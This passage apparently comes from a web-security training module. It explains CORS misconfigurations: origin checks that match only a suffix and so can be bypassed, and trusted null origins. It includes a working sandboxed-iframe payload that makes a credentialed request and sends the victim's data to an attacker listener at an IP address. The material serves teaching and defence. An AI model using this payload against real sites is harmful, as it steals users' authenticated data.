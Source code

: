 ### Background

Instead of reflecting arbitrary origins, a web application must check an origin against a whitelist of trusted origins before reflecting it. If this check is conducted improperly, an attacker might be able to bypass it and achieve a Same-Origin exception for an untrusted origin. In particular, implementations checking the prefix or suffix of an origin may be vulnerable.

A common goal of a web application is to trust all subdomains of a particular origin. For instance, let us assume an API hosted at `https://cors-misconfigs.htb` validates incoming origin headers by checking whether it ends with the string `cors-misconfigs.htb` to verify that only sibling subdomains are granted a Same-Origin policy exception. While the API implements a check for the origin before trusting it, the check is improperly implemented as it does not only cover subdomains of `cors-misconfigs.htb` but all domains ending in `cors-misconfigs.htb`.

### Exploitation

Exploiting this CORS misconfiguration is identical to exploiting arbitrary origin reflection, as an attacker can use the same payload to exfiltrate the data. However, since the origin is checked, there are limitations on the origin the attacker can host the payload on. Due to the postfix match, an attacker is unable to use the origin `https://exploitserver.htb` for the exploitation but can choose any origin that ends in `cors-misconfigs.htb`, for instance, `https://attackercors-misconfigs.htb` to host the payload.

## Trusted null origin

### Background

The `Access-Control-Allow-Origin` header does not only support a trusted origin and a wildcard but also the value `null`, which indicates the null origin. While this should not be used in practice, some web applications might implement it due to a misconception of the meaning. An attacker can employ various methods to force a null origin on a cross-origin request, which is subsequently trusted, resulting in a Same-Origin policy exception.

We must identify instances where the null origin is explicitly trusted to identify this misconfiguration. To achieve this, we can look for the value `null` in the `Access-Control-Allow-Origin` CORS header.

### Exploitation

An attacker must supply a null origin in the cross-origin request to exploit this misconfiguration. Any origin can achieve this by using a sandboxed iframe:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://cors-misconfigs.htb/data.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
      location = 'https://10.10.14.144:4443/log?data=' + btoa(xhr.response);
    };
    xhr.send();
</script>"></iframe>
```
Using this payload, the exploit is the same as in the previous misconfigurations. However, the sandboxed iframe results in a null origin in the cross-origin request:
